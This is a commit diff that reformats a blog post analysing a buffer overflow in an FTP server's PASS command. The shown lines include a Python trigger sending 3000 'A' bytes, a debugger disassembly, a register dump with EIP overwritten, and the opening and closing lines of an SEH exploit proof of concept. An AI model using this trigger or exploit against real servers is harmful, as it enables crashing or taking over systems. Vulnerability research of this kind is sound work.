

Before and after one commit to FazliMolaJan/nafiez.github.io, a Jekyll site: the page built from _posts/2018-09-19-ftp-overflow.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2018-09-19-ftp-overflow.md

````diff
--- a/_posts/2018-09-19-ftp-overflow.md
+++ b/_posts/2018-09-19-ftp-overflow.md
@@ -8,13 +8,15 @@ categories: [security, integer]
 
 Vulnerability Analysis
 ----------------------
-To trigger the vulnerability, we need to send buffer more than 3000 bytes. Vulnerable part is the "PASS" input.
-
+To trigger the vulnerability, we need to send buffer more than 3000 bytes. Vulnerable part is the **PASS** input.
+```
   reqftp += "A" * 3000
   ... code cut here ...
   s.send("PASS " + reqftp + "\r\n")
+```
 
 Example trigger overflow:
+```
   import socket, sys
 
   if len(sys.argv) <= 1:
@@ -34,13 +36,15 @@ Example trigger overflow:
   s.send("PASS " + reqftp + "\r\n")
   s.recv(1024)
   s.close()
+```
 
-However, before sending the buffer to "PASS" input, we need to escaped a character by using "\x2c", example below.
+However, before sending the buffer to **PASS** input, we need to escaped a character by using **\x2c**, example below.
 Further info, https://www.cleo.com/support/byproduct/lexicom/usersguide/ftp_configuration.htm.
-
+```
   reqftp = "\x2c" + "A" * 3000
-
+```
 Upon overflowing, it will stop here at this function:
+```
 0046C18C  /$ 56             PUSH ESI
 0046C18D  |. 57             PUSH EDI
 0046C18E  |. 8B7C24 0C      MOV EDI,DWORD PTR SS:[ESP+C]
@@ -55,8 +59,10 @@ Upon overflowing, it will stop here at this function:
 0046C1A5  |. 3B0D 78A04900  CMP ECX,DWORD PTR DS:[49A078]            ;  fsfs.0049A07C
 0046C1AB  |. 75 06          JNZ SHORT fsfs.0046C1B3
 0046C1AD  |> 8378 F4 00     CMP DWORD PTR DS:[EAX-C],0    <--- EIP
-
-Continuing the execution by pressing "Shift + F9" (Immunity Debugger) will overwrite the EIP, e.g. (Register):
+```
+Continuing the execution by pressing **Shift + F9** (Immunity Debugger) will overwrite the EIP, e.g.
+```
+Register
 EAX 00000000
 ECX 41414141
 EDX 777771CD ntdll.777771CD
@@ -66,8 +72,10 @@ EBP 04279D38
 ESI 00000000
 EDI 00000000
 EIP 41414141
+```
 
 Proof-of-Concept (fully working SEH exploit)
+```
   # Crafted for fun and polishing skillz!
   import sys, socket, struct
 
@@ -127,6 +135,6 @@ Proof-of-Concept (fully working SEH exploit)
   s.send("PASS " + reqftp + "\r\n")
   s.recv(1024)
   s.close()
-
+```
 
 **This type of exploit can be crafted within hour**
````
